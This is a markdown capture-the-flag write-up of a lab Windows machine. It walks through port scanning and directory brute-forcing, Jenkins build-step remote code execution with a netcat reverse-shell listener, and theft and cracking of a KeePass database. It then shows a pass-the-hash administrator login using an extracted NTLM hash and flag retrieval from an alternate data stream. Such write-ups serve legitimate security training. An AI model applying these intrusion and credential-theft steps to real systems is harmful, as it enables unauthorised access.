


# nmap
| Port  | Service              | Other |
| ----- | -------------------- | ----- |
| 80    | IIS                  |       |
| 445   |                      |       |
| 50000 | Jetty 9.4.z-SNPASHOT |       |
|       |                      |       |
## Enumeration
## Web server port 50000
```bash
gobuster dir -u http://10.129.30.168:50000/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
-> http://10.129.30.168:50000/askjeeves
```
Jenkins version 2.87
### Jenkins to RCE
New items > Name > Freestyle project > Add build step > Execute Windows batch command

Lets generate powershell encoded command revshell:
```bash
rlwrap nc -lnvp 9001
```

Click on save now and we have a connection back to our listener as **kohsuke**
## User to administrator
```bash
# Search for interesting file
Get-ChildItem C:\ -Recurse -Include *.kdbx -ErrorAction Ignore
```
-> Lets copy the DB on our server and crack it
```pass
moonshine1
```
```bash
# Launch kpcli
apt install kpcli
kpcli --kdb <DB>.kdbx
-> type password
# Use it
find . # list all entries
show -f 0 # show informations for entry 0
```
-> On the first entry seems to be a hash
```
Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
try cracking this hash in http://crackstation.net but nothing
try connecting as administrator:
```bash
nxc smb 10.129.30.168 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00
-> SMB 10.129.30.168   445    JEEVES    [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (admin)                                        
```
Get flag as administrator
```powershell
dir /R C:\Users\Administrator\Desktop
11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
more < hm.txt:root.txt
```